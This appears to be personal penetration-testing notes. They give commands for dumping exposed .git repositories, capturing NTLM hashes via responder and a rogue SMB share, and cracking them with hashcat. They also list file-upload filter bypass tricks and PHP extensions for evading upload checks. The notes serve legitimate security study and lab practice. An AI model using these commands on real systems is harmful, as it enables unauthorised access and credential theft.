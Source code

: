 ```
bash /home/pinklii/offsec/tools/gitdumper.sh http://<IP>/.git/ <dest folder>

git-dumper http://<IP>/.git .
```

search:
- logs
- credentials in source code / config file
- search in google where credentials save in this repo
- check commits
- check other branches

### MitM

```
sudo responder -I tun0  

sudo impacket-smbserver -smb2support evilshare "$PWD"

\\<IP>\evilshare

# crack the hash
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force -O
```

### file upload 

general ways: https://medium.com/@bensanel28/file-upload-attacks-htb-academy-fully-walkthrough-fca6153d294d
- change that content-type in burp suite
- overwrite .htaaccess file and defile extension that render php
- generate malicious file with the needed extension using tools  
- upload file throw ftp or smb share and render from the website
- use exploit
- read code and see what are the terms to pass 
- magic bytes

- markdown-pdf: https://hackerone.com/reports/360727
- pdfkit:  https://github.com/shamo0/PDFkit-CMD-Injection 

##### extensions
try different extensions
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst
```
php
php3
php4
php5
php7
pht
phtm
phtml
phar
phps
Php
pHP
pHp
```
